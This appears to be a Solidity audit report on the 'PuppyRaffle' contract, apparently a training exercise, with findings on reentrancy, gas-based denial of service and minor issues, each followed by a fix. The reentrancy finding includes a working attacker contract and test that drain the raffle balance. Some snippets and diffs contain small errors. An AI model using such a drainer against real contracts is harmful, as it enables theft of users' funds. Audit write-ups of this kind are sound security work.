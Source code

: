 ### [H-1]: Reentrancy attack in `PuppyRaffle:refund` allows entrant to drain raffle balance.

**Description:** The `PuppyRaffle::refund` does not follow CEI (Checks, Effect, Interactions) and as a result enables participants to drain the contract balance.

In the `PuppyRaffle::refund` function, we first make an external call to the `msg.sender` address and only after making that external call do we update the `PuppyRaffle::players` array.

```js
function refund(uint256 playerIndex) public {
    //written-skipped MEV
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
@>  payable(msg.sender).sendValue(entranceFee);
@>  players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
    }
```

A player who has entered the raffle could have a `fallback`/`receive` function that calls the `PuppyRaffle::refund` function again and claim another refund. This cycle could continue till the contract balance is drained. 

**Impact:** All fees paid by a raffle entrant could be stolen by a malicious participant.

**Proof of Concept:**
1. User enters the raffle
2. Attacker sets up a contract with a `fallback` function that calls `PuppyRaffle::refund`
3. Attacker enters the raffle
4. Attacker calls the `PuppyRaffle:refund` function from their contract draining the contract balance.

**Proof of Code:**
<details>
<summary>Code</summary>

Place the following intoC `PuppyRaffle.t.sol`:

```js
function test_ReentrancyRefund() public {
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
    address attackUser = makeAddr("attackUser");
    vm.deal(attackUser, 1 ether);

    uint256 startingAttackContractBalance = address(attackerContract).balance;
    uint256 startingVictimContractBalance = address(puppyRaffle).balance;

    vm.prank(attackUser);
    attackerContract.attack{value: entranceFee}();

    console.log("Starting attacker contract balance: ", startingAttackContractBalance);
    console.log("Starting attacker contract balance: ", startingVictimContractBalance);
    
    console.log("Ending attacker contract balance: ", address(attackerContract).balance);
    console.log("Ending attacker contract balance: ", address(puppyRaffle).balance);
}
```
And this contract as well

```js
    contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyraffle) {
        puppyRaffle = _puppyraffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if(address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}
```
</details>

**Recommended Mitigation:** To prevent this, we should have the `PuppyRaffle:refund` function update the players array before making the external call. Additionally, we should move the event emission up as well.

```diff
 function refund(uint256 playerIndex) public {
    //written-skipped MEV
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

    // @audit Reentrancy
 
+    players[playerIndex] = address(0);
+    emit RaffleRefunded(playerAddress);
    payable(msg.sender).sendValue(entranceFee);

-    players[playerIndex] = address(0);
-    emit RaffleRefunded(playerAddress);
    }
```

### [M-#]: Looping through the players array to check for duplicates in `PupyyRaffle::enterRaffle` is a potential denial of service attack, incrementing gas costs for future entrants

**Description:** The `puppyRaffle:enterRaffle` function loops through the `players` array to check for duplicates. However, the longer the `PuppyRaffle:players` array is, the more checks a new player will have to make. This means the gas costs for players who enter right when the raffle starts will be automatically lower than those who enter later. Every additional address in the players array is an additional check the loop will have to make.

```js
// @audit DoS
@>   for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
```

**Impact:** The gas costs for raffle entrants will greatly increase as players enter the raffle. Discouraging later users from entering, and causing a rush at the start of the raffle to be one of the first entrants in the queue.

An attacker might make the `PuppyRaffle::entrants` array so big that no one else enters, guaranteeing themselves the win.

**Proof of concept:** If we have to sets of 100 players, the gas costs will be as such:
- First 100 players: 6252048 gas
- First 100 players: 18068138 gas

The second code is more than 3x the first cost.

<details>
<summary>PoC</summary>
Place the following test into `PuppyRaffle.t.sol`

```js
function testDenialOfService() public  {
        // declare the first 100 players
    vm.txGasPrice(1);
    uint256 playersNum = 100;
    address[] memory players = new address[](playersNum); //reserve space for 100 elements

    for(uint256 i = 0; i < playersNum; i++) {
        players[i] = address(i);
    }
    uint256 gasStart = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
    uint256 gasEnd = gasleft();

    uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
    console.log("Gas cost for the first 100 player", gasUsedFirst);

    // second entry
    address[] memory playersTwo = new address[](playersNum); //reserve space for another 100 players
    for(uint256 i = 0; i < playersNum; i++) {
        playersTwo[i] = address(i + 100);
    }
    uint256 gasStartTwo = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * playersNum}(playersTwo);
    uint256 gasEndTwo = gasleft();

    uint256 gasUsedSecond = (gasStartTwo - gasEndTwo) * tx.gasprice;
    console.log("Gas cost for the first 100 player", gasUsedSecond);

    assert(gasUsedSecond > gasUsedFirst);
}
```
</details>

**Recommended mitigation:**

1. Consider allowing duplicates. Users can create new wallet addresses anyway, so a duplicate check doesn't prevent the same person from entering multiple times, only the same wallet address.

2. Consider using a mapping to check for duplicates. This will allow constant time lookup of whether a user has already entered. 

```diff
+ mapping (address => uint256) public addressToRaffleId;
+ uint256 public raffleId = 0;

function enterRaffle(address[] memory newPlayers) public payable {
    require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
    for (uint256 i = 0; i < newPlayers.length; i++) {
        players.push(newPlayers[i]);       
+       addressToRaffleId[newPlayers[i]] = raffleId;
    }

-      // Check for duplicates
+   // check for duplicates only from the new players
+   // for (uint256 i = 0; i < newPlayers.length; i++) {
+   require(addressToRaffleId[newPlayers[i]] != raffleId, "PuppyRaffle duplicate player");
+   }
    // @audit DoS
-    for (uint256 i = 0; i < players.length - 1; i++) {
-       for (uint256 j = i + 1; j < players.length; j++) {
-            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-        }
-        }
        emit RaffleEnter(newPlayers);
    }

function selectWinner() external {
+  raffleId += 1;
   require(block.timestamp >= raffleStartTime + raffleDuration, "Raffle not over";)
}
```

Alternatively, you could use Openzeppelin `EnumerableSet` library

# Low

### [L-1]: `PuppyRaffle::getPlayerIndex` returns 0 for non-existent players and for players at index 0, causing a player at index 0 to incorrectly think they have not entered the raffle.

**Description:** If a player is in the `PuppyRaffle::players` array at index 0, this will return 0, but according to the natspec, it will also return 0 if the player is not in the array.

````js
function getActivePlayerIndex(address player) external view returns (uint256) {
    for (uint256 i = 0; i < players.length; i++) {
        if (players[i] == player) {
            return i;
        }
    }
    // @audit if a player is not non-existent in the players array, this will return 0, which could also mean the player is at index 0
    // @audit if a player is active but at index 0, this could also mean the player is not active
    return 0;
    }
```


**Impact:** A player at index 0 may incorrectly think they have not entered the raffle, and may attempt to enter the raffle again, thereby wasting gas. 

**Proof of Concept:**
1. User enter the raffle, they are the first entrant
2. `PuppyRaffle::getActivePlayerIndex` returns 0
3. User thinks they have not entered correctly, due to the functions documentation. 

**Recommended Mitigation:** The easiest recommendation is to revert if the player is not in the array instead of returning 0. You could also reserve the 0th position for any competition, but a better solution might be to return `int256` where the variable returns `-1` for inactive players. 

## Gas

### [G-1]: Unchanged state variables should be declared constant or immutable

Reading from storage is much more expensive than reading from constant or immutable variables.
Instances:
- `PuppyRaffle::raffleDuration`,`PuppyRaffle: raffleStartTime`, and  should be immutable.
- `PuppyRaffle::commonImageUri`,`PuppyRaffle: rareImageUri`, and  should be constant.

### [I-2]: Solidity pragma should be specific, not wide

Consider using a specific version of Solidity in your contracts instead of a wide version. For example, instead of `pragma solidity ^0.8.0;`, use `pragma solidity 0.8.0;`

<details><summary>1 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 2](src/PuppyRaffle.sol#L2)

	```solidity
	pragma solidity ^0.7.6;
	```

</details>

### [G-2]: Storage variables in a loop should be cached

Every time you call `players.length` you read from storage, as opposed to memory which is more gas efficient.

```diff
+ uint256 playersLength = players.length;

- for (uint256 i = 0; i < players.length - 1; i++) {
+ for (uint256 i = 0; i < playersLength - 1; i++) {
-            for (uint256 j = i + 1; j < players.length; j++) {
+            for (uint256 j = i + 1; j < playersLength; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
```

## Informational

### [I-3]: Using outdated versions of solidity is not recommended. 

solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks. We also recommend avoiding complex pragma statement.

**Recommendation**
Deploy with a recent version of Solidity (at least 0.8.0) with no known severe issues.

Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.

See [Slither Documentation](#https://github.com/crytic/slither/wiki/Detector-Documentation#incorrect-versions-of-solidity) for more information.

### [I-4]: Missing checks for `address(0)` when assigning values to address state variables

Check for `address(0)` when assigning values to address state variables.

<details><summary>2 Found Instances</summary>

- Found in src/PuppyRaffle.sol [Line: 65](src/PuppyRaffle.sol#L65)

	```solidity
	        feeAddress = _feeAddress;
	```

- Found in src/PuppyRaffle.sol [Line: 203](src/PuppyRaffle.sol#L203)

	```solidity
	        feeAddress = newFeeAddress;
	```

</details>
